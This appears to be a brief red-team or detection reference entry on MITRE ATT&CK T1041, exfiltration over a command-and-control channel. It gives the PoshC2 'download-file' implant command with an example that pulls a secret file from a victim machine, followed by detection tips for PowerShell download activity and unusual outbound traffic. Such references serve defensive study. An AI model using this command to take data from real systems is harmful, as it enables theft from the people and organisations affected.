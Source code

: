 # [Exfiltration Over Command and Control Channel](https://attack.mitre.org/techniques/T1041/)

## **Exploit Description:** 

Download command in PoshC2

## **Exploit syntax:**

* Download file directly from implant
```powershell
download-file <file path> 
Example: download-file 'C:\\Users\\Public\\SuperSecretData.txt'
```

## **Detection Technique:**
* Investigate powershell with the “download” command. Investigate increased data transfer external to the network during a network connection.
